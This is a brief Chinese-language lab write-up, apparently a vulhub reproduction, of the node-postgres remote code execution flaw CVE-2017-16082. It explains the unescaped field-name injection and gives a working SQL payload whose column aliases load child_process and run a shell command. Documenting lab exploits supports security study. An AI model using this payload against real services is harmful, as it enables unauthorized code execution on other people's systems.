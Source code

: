 # Node-postgres 代码执行漏洞（CVE-2017-16082）

###### by ADummy

### 0x00利用路线

​			直接url执行

### 0x01漏洞介绍

​			node-postgres在处理类型为`Row Description`的postgres返回包时，将字段名拼接到代码中。由于没有进行合理转义，导致一个特殊构造的字段名可逃逸出代码单引号限制，造成代码执行漏洞。

### 0x02漏洞复现

那么，我们就可以猜测这里存在node-postgres的代码执行漏洞。编写我想执行的命令`touch /tmp/success`，然后适当分割（每段长度不超过64字符）后替换在如下payload中：

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`touch /tmp/success`)//"

///注意url编码
```

![Node_postgres_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Node_postgres_RCE_1.jpg)

![Node_postgres_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Node_postgres_RCE_2.jpg)











